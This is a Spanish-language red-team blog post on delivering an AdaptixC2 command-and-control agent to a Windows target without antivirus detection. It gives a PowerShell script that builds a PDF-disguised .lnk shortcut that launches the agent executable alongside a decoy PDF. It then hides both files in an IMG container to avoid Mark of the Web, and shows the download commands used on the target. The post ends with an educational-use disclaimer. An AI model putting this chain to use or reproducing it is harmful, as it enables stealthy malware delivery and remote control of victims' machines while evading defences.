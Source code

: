 # Método de ejecución Agente C2


# Método de ejecución Agente C2

## Introducción

En este post voy a describir una manera de como un atacante o miembros de un Red Team pueden elaborar un fichero malicioso y ser ejecutado en la maquina objetivo con el fin de obtener acceso sin ser detectado por el antivirus.

Para este post he utilizado el Command and Control AdaptixC2, no voy a entrar en profundidad en como se instala ya que en la propia documentación viene bien detallado el proceso. Aunque si encontráis algún inconveniente a la hora de instalar la versión de GO os recomiendo que descarguéis directamente el paquete de la web oficial [aqui](https://go.dev/dl/). 

Os dejo el repositorio de AdaptixC2  [aqui](https://github.com/Adaptix-Framework/AdaptixC2) y su documentacion [aqui](https://adaptix-framework.gitbook.io/adaptix-framework).

## Creación de listener y Agente

Una vez hemos ejecutado el servidor y el cliente, nos aparecerá la interfaz del cliente, lo primero que debemos hacer es crear un listener al que se conectara nuestro agente generado posteriormente.

Para este Post voy a utilizar un listener de tipo HTTP, para ello debemos hacer clic en la esquina superior izquierda en el icono de los cascos.

![image.png](image.png)

Una vez abierta la pestaña de los listeners hacemos clic derecho > Create y nos aparecerá la siguiente ventana:

![image.png](image%201.png)

Desde aquí podemos configurar nuestro listener, para esta prueba solo he realizado cambios en la pestaña Main settings, pero también se pueden configurar las cabeceras HTTP, una pagina de error y la pagina del Payload.

Indicamos un nombre y añadimos la ip de la maquina donde se ejecuta el servidor y un puerto, al final debería quedar algo así:

![image.png](image%202.png)

Para finalizar este paso solo nos queda generar el agente, para ello hacemos clic derecho en el listener recién creado.

![image.png](image%203.png)

Nos aparecerá la siguiente ventana:

![image.png](image%204.png)

Para esta prueba no he realizado cambios, pero como se puede observar podemos modificar la arquitectura, el tipo de formato, el campo Sleep, cuando queremos que termine la conexión remota y el tiempo activo del agente.

Hacemos clic en Generate y guardamos nuestro agente.

## Shell Link

Para la ejecución de nuestro agente voy a utilizar un fichero .lnk generado con PowerShell el cual va ejecutar nuestro agente y un pdf que queramos mostrarle al usuario objetivo como señuelo.

Esta opción es interesante ya que aunque el usuario tenga activado la opción de ver la extensión en el explorador, la extensión .lnk no va a ser visible.

```bash
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\Documento.pdf.lnk")

$lnk.TargetPath = "%COMSPEC%"

$lnk.Arguments = "/C start agent.64.exe && start Documento.pdf"

$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

Si el icono de pdf no se muestra se puede cambiar haciendo clic en propiedades y cambiar icono.

![image.png](image%205.png)

## Container

Una vez tenemos los tres ficheros: Documento.pdf(señuelo), Agent.64.exe(payload) y Documento.pdf.lnk(trigger) pasamos a empaquetarlos en un único comprimido así evitamos el tener que enviar múltiples ficheros al objetivo.

Mark of the web(MotW) es un identificador de zona que se utiliza para marcar los archivos descargados de Internet como potencialmente inseguros.  Esto se puede ver en un archivo consultando sus propiedades en el Explorador o utilizando PowerShell.

![image.png](image%206.png)

![image.png](image%207.png)

Algunos  formatos de comprimidos admiten archivos ocultos, y otros no propagan MotW.  [Este repositorio](https://github.com/nmantani/archiver-MOTW-support-comparison) de [Nobutaka Mantani](https://x.com/nmantani) contiene una comparación de las propagaciones de MotW.

Para empaquetar nuestros ficheros voy a utilizar la herramienta [PackMyPayload](https://github.com/mgeeky/PackMyPayload).

Añado los ficheros a una carpeta.

```bash
ls -l 
total 100
-rw-r--r-- 1 root  root  80384 Jun  5 16:22 agent.x64.exe
-rw-rw-r-- 1 n1kto n1kto 13264 Jun  5  2025 Documento.pdf
-rw-rw-r-- 1 n1kto n1kto  1859 Jun  5  2025 Documento.pdf.lnk
```

Y los empaqueto en un fichero con formato IMG ocultando agent.64.exe y Documento.pdf utilizando el parámetro `-H` .

```bash
python3 PackMyPayload.py -H agent.64.exe,Documento.pdf ~/Desktop/container ~/Desktop/container/package.img
```

# Envió y ejecución

Por ultimo transferimos nuestro fichero generado a la maquina objetivo levantando un servidor con python:

```bash
python -m http.server 8000
```

y en la maquina objetivo desde PowerShell lo descargamos:

```bash
 iwr -Uri http://192.168.154.128:8000/package.img -Outfile package.img
```

Abrimos package.img y abrimos el fichero que contiene produciendo así la conexión del agente con nuestro Command and control y todo ello con Windows Defender activado.

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

Recuerdo que este post es con fines educativos y éticos y no se debe emplear para fines ilegales.
